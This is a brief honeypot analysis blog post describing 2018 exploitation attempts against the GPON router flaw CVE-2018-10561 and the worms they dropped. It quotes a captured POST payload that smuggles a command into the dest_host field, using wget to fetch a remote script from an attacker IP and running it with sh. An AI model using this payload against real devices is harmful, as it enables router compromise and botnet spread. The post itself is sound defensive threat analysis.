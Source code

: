 ```yaml
---
title: "Malware Analysis"
#author: "Author Name"
description: "Initial analysis of some attacks hitting the honeypot"
#cover: "/img/cover.jpg"
#tags: ["tagA", "tagB"]
date: 2018-05-14T00:00:00-00:00
draft: false
---
```

In Glastopf logs I see POST requests to `/GponForm/diag_Form?images/`.  These exploitation attempts have started in the last couple weeks, and their intensity ebbs and flows.  The attacks are related to [CVE-2018-10561](https://nvd.nist.gov/vuln/detail/CVE-2018-10561), a router vulnerability which came out on 3 May, and the attempts I've seen in the last couple days seem the most sophisticated.

Earlier attacks seemed focused on determining whether the vulnerability was present, and dropping further attack code like the MIRAI binaries.  That seemed strange to me as those binaries would attack other routers using a different vulnerability, so the worm wouldn't propagate based on the new vulnerability, simply use the new vulnerability as a starting point to launching other attacks.

Now, I see attacks dropping worms specific to this vulnerability.  A graph depicting the relevant action is available [here](https://www.virustotal.com/graph/gc15437d1ce6de4aa1c2b17c0bc9b9eb2b67ecb0d7841edfb33a2437a8ede94c8).

The request to the web end point above contains the following POST data:

```bash
XWebPageName=diag&diag_action=ping&wan_conlist=0&dest_host=;wget+hxxp://185.62.190.191/r+-O+->/tmp/r;sh+/tmp/r&ipv=0
```

I don't actually have the vulnerable hardware, but this seems to attempt a command injection after using the authentication bypass.  The command injection downloads a shell script and executes it.  The script tries downloading and executing binaries for ARM, MIPS, MIPS little endian, and ARM7, in turn.

I haven't reverse engineered the downloaded binaries beyond looking at strings and glancing at logic, but they seem to use the same vulnerability to spread based on that brief analysis.  Practice bears this out - lots of IP addresses are making these POST requests.  The numbers are waning now, suggesting either that infection has hit a peak and the worm doesn't attempt to keep spreading, or the worm ended up breaking things...
